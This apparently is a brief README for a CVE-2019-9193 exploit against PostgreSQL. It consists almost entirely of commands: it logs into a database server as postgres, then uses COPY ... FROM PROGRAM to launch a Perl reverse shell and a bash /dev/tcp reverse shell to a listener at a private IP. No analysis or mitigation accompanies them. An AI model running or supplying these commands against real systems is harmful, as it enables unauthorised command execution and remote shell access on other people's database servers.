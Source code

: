 # CVE-2019-9193

> https://github.com/X-x-X-0/CVE-2019-9193





```bash
pip3 install psycopg2-binary

pgcli -h 10.130.130.12 -p 5432 -U postgres -W -d postgres

> COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.130.130.55:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';

> COPY cmd_exec FROM PROGRAM 'bash -i >& /dev/tcp/10.130.130.55/80 0>&1';
```